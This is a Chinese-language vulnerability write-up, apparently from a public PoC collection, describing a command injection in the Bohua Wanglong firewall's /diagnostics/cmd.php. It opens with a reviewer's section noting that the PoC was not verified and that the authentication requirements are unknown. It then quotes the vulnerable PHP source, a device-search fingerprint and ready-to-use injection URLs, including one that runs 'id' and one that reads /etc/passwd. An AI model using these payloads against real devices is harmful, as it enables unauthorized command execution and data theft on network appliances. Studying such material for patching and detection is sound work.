

# 博华网龙防火墙 cmd.php 远程命令执行漏洞

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：博华网龙防火墙
- 本文讨论：diagnostics/cmd.php ping count与arping参数命令注入
- 版本、权限与配置前提：session.inc/checkApproachUrl存在，认证条件未知；固件未列
- 资料类型：源码/多分支PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 不能笼统所有变量都无过滤：ping host和traceroute ttl/host用了escapeshellarg，核心为count/arping参数
- auth helper未展示不能直接称未授权
- 请求count=||id||与arping不同分支可同实体保留，两种回显方式/临时文件需说明

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 认证/来源固件/修复待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

博华网龙防火墙 cmd.php 过滤不足，导致命令拼接执行远程命令

## 漏洞影响

```
博华网龙防火墙
```

## 网络测绘

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面


存在漏洞的文件为 **/diagnostics/cmd.php**

```php
<?php
    include_once("pub/pub.inc");
    include_once("pub/session.inc");
    
    $username = $_SESSION["USER_NAME"];
    checkApproachUrl(); 
    
  if($_GET['action'] == "ping")
  {
        $host = $_GET['host'];
        $count = $_GET['count'];
        system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
        
         if($username)
            pSyslog("ping $host $count次", 0);           
  }
  else if($_GET['action'] == "traceroute")
  {
        $host = $_GET['host'];
        $ttl =  $_GET['ttl'];
        $useicmp = $_GET['useicmp'];
        
        if($useicmp)
            $useicmp = "-I";
        else
            $useicmp = "";        
        system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");    
        if($username)
            pSyslog("traceroute $host 跳数为$ttl", 0);     
  }
  else if($_GET['action'] == "arping")
  {
    $host = $_GET['host'];
    $count = $_GET['count'];
    $if = $_GET['ifName'];
    $src = $_GET['src'];
    system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
    
     if($username)
        pSyslog("arping $host $count次", 0);
  }
  else
  {
    system("echo \"\" >temp.htm");
  } 
?>
```

可以发现其中存在多个命令执行点，均可进行命令拼接执行恶意命令

构造命令执行

```php
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
```




---

> 来源：Threekiii/Awesome-POC
